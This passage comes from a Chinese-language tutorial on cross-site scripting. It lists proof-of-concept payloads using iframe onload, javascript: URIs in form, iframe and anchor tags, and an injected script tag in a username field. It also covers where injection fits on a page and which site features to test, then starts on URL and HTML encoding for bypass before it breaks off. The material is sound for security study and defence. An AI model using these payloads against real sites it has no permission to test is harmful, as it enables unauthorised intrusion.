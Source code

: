 ### 2.1.9 iframe

```html
<iframe onload=alert("xss");></iframe>
<iframe src=javascript:alert('xss')></iframe>
```

### 2.1.10 form

```html
<form action=javascript:alert('xss') method="get">
```

### 2.1.11 自定义标签

```html
<a href='javascript:alert(666)'>click</a>
<a href='javascript:alert(document.domain)'>click</a>
```

## 2.2 XSS 可以插入的位置

- 用户输入作为script的标签内容
- 用户输入作为html注释内容
- 用户输入作为html标签的属性名
- 用户输入作为html标签属性值
- 用户输入作为html标签的名字直接插入到CSS里

### 2.2.1 测试位置

- 常见业务场景  
重灾区：评论区、留言区、个人信息、订单信息、站内信、网页及时通讯、私信、意见反馈  
存在风险：搜索框、当前目录、图片属性、URL本身、URL所有参数、表单

```html
uername=<script>alert(1)<script>&</script>&password=******
```

# 3 XSS 编码与绕过

## 3.1 网页的解码过程

编码就是将字符变为二进制数，而解码就是还原二进制数为字符。从浏览器请求url到在页面上显示出来也经历了一些编码和解码过程。

- URL编码

URL编码是为了允许URL中存在汉字这样的非标准字符，本质是把一个字符转为%加上UTF-8编码对应的16进制数字。所以又称之为Percent-encoding。

- HTML编码/解码

当浏览器接收到服务端发送来的二进制数据后，首先会对其进行HTML解码，呈现出来的就是看到的源代码。具体的解码方式依具体情况而定，所以需要在页面中指定编码，防止浏览器按照错误的方式解码，造成乱码，所以很多网页就指定了解码方式为UTF-8。

但是在HTML中有些字符是和关键词冲突的，比如<、>、&，解码之后，浏览器会误认为它们是标签，为了正确地显示预留字符，需要在HTML源代码中使用字符实体，比如常见的空格&nbsp;，字符实体以&开头+预先定义的实体名称表示，但不是所有的字符都有实体名称，但是它们都有实体编号，也可以用&#开头+实体编号+分号表示。比如：
